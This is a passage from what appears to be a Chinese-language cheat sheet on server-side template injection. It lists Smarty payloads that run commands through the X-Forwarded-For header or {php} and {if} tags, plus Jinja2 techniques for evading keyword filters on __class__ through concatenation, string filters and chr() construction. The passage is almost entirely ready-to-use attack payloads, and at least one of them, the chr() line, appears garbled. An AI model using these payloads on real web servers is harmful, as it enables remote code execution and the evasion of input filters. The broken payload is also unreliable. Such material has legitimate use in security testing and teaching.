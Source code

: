 控制XFF进行命令执行（这是要在前端有IP相关回显的情况）

payload:

```
X-Forwarded-For: {{system("ls")}}
```

标签

**{php}**

```
{php}phpinfo();{/php}
```

Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。

**{literal} 标签**

**{literal}可以让一个模板区域的字符原样输出。** 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。

{if}{/if}

```
{if phpinfo()}{/if}

```

# 13.绕过关键字过滤

​	

```
以__class__为例
```

## 1.字符编码

## 2.简单拼接

```
'__c'+'lass__'
```

## 3.使用Jinjia2中的‘~’进行拼接：

```
{%set a="__cla"%}{%set b="ss__"%}{{a~b}}
```

## 4.使用过滤器reverse反转、replace替换、join拼接

```
{%set a="__ssalc__"|reverse%}{{a}}
```

## 使用python的char（）

```
{%set chr=url.for__globlas__['__builtins__'].chr%}
{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
```





